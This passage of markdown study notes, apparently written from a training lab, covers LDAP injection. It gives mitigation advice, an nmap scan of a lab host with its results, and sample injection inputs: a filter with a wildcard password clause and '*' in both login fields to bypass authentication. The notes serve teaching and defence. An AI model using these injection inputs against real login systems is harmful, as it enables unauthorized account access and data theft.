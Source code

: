 Query becomes:

```ldap
(&(objectClass=user)(sAMAccountName=dummy)(userPassword=*))
```

🟡 This only works **if `dummy` exists** AND password filtering is allowed — **rare in real LDAP setups**.


## 🛡️ Mitigation of LDAP Injection

* ✅ **Input validation**: Whitelist expected characters.
* 🔒 **Escape special characters**: `*`, `(`, `)`, `\`, etc.
* 🔐 **Use parameterized LDAP APIs** where available.
* 🧪 **Test for injection vectors** during security reviews.


## 🛠️ LDAP Enumeration with Nmap

```bash
nmap -p- -sC -sV --open --min-rate=1000 10.129.204.229
```

### 🔍 Scan Result

```
PORT    STATE SERVICE VERSION
80/tcp  open  http    Apache httpd 2.4.41 (Ubuntu)
389/tcp open  ldap    OpenLDAP 2.2.X - 2.3.X
```

✅ Indicates a **web app on port 80** and **LDAP service on port 389** — likely used for login/authentication.


## 🚨 LDAP Injection in Practice

### 🧪 Testing Login with Wildcards

```text
Username: *
Password: *
```

✅ Results in successful login → **LDAP injection confirmed**.

### 🔓 Impact

* **Bypass authentication**
* **Access unauthorized accounts**
* **Modify or delete LDAP data**
* **Exfiltrate sensitive user information**

---
